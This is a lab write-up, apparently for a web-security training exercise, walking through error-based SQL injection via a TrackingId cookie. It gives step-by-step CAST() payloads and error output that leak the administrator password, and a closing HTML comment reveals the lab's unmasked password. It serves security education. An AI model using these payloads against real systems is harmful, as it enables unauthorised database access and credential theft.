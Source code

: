 # 📚 **Extracting Sensitive Data via Verbose SQL Error Messages**

## 🔍 Lab Title: *Visible error-based SQL injection*

### 💡 Objective:
Demonstrate how **verbose SQL error messages** can be abused to extract sensitive data (like usernames and passwords) from a database, even in scenarios where the application does not directly return query results.

This lab simulates a real-world scenario where an attacker exploits a **SQL injection vulnerability** via a `TrackingId` cookie. By leveraging **CAST() type conversion errors**, we force the database to expose sensitive information — effectively turning a **blind SQL injection** into a **visible one**.

## 🧪 Target Overview

- Vulnerable Parameter: `TrackingId` cookie
- Injection Type: **Error-Based SQL Injection**
- Goal:
  - Extract the password of the `administrator` user.
  - Log in as administrator.

## 🧠 Key Concepts Explained

### ✅ Verbose SQL Error Messages
Some misconfigured applications or databases return **detailed error messages** that include parts of the executed SQL query or even values retrieved from the database.

These messages are gold for attackers because they can:
- Reveal SQL query structure
- Expose table/column names
- Leak sensitive data via type conversion errors

### 🔁 CAST() Function Abuse
The `CAST()` function converts one data type to another. If you try to cast a string like `'administrator'` to an incompatible type like `INT`, most databases will throw an error containing the original string:

```sql
ERROR: invalid input syntax for type integer: "administrator"
```

This lets us **leak sensitive data** through error messages.

## 🛠️ Step-by-Step Attack Walkthrough

### 1️⃣ **Confirm SQL Injection Vulnerability**

Start by injecting a single quote to trigger an SQL error:

### 📥 Payload:
```http
Cookie: TrackingId='
```

### 💡 Result:
- You see an error like:
  ```
  Unterminated string literal started at position ...
  ```

✅ This confirms SQL injection is possible.

### 2️⃣ **Test Basic CAST() Behavior**

Try casting a harmless value to int:

### 📥 Payload:
```http
Cookie: TrackingId='+AND+CAST((SELECT+1)+AS+int)--
```

### 💡 Result:
- Query executes → No error  
➡️ `CAST()` works as expected.

### 3️⃣ **Force Error with String-to-Integer Conversion**

Now try casting a string result to integer:

### 📥 Payload:
```http
Cookie: TrackingId='+AND+1=CAST((SELECT+username+FROM+users)+AS+int)--
```

### 💡 Result:
You get an error message:
```
ERROR: invalid input syntax for type integer: "administrator"
```

🎉 Success! The database leaked the username **"administrator"** via the error.

### 4️⃣ **Limit to One Row (Avoid Multiple Results)**

If multiple rows exist, the query may fail due to returning more than one result.

### 📥 Payload:
```http
Cookie: TrackingId='+AND+1=CAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--
```

### 💡 Result:
Still leaks:
```
ERROR: invalid input syntax for type integer: "administrator"
```

✅ Now we're safely extracting only one row.

### 5️⃣ **Extract Administrator Password**

Repeat the process but target the `password` field:

### 📥 Payload:
```http
Cookie: TrackingId='+AND+1=CAST((SELECT+password+FROM+users+WHERE+username='administrator'+LIMIT+1)+AS+int)--
```

### 💡 Result:
You get:
```
ERROR: invalid input syntax for type integer: "8gr8v4a5xxxxxxxxxx"
```

🎉 You've successfully extracted the **administrator password**!

## 🔐 Final Credentials

| Field | Value |
|-------|-------|
| Username | `administrator` |
| Password | `8gr8v4a5xxxxxxxxxxx` |

Go to `/login` and log in with these credentials to complete the lab.

## 🧾 Summary of Key Payloads

| Purpose | Payload |
|--------|---------|
| Confirm SQLi | `'` |
| Test CAST() behavior | `'+AND+CAST((SELECT+1)+AS+int)--` |
| Leak username | `'+AND+1=CAST((SELECT+username+from+users+LIMIT+1)+AS+int)--` |
| Leak password | `'+AND+1=CAST((SELECT+password+from+users+WHERE+username='administrator')+AS+int)--` |

## 🧠 Takeaways

- **Verbose errors** are dangerous — they can leak query structure and sensitive data.
- Use `CAST()` or similar functions to **force type-conversion errors**.
- Always use `LIMIT 1` when selecting strings to avoid multi-row errors.
- Wrap payloads in safe conditions like `1=CAST(...)` to ensure execution.
- Even blind SQL injection can become visible if error handling is poor.

## 🙌 Final Notes

Great job solving this lab! You’ve turned a silent SQL injection into a powerful data extraction tool using just a few clever tricks.

 happy hacking! 💻⚡

<!-- admin password is 8gr8v4a5mq6wh1dtlmmf -->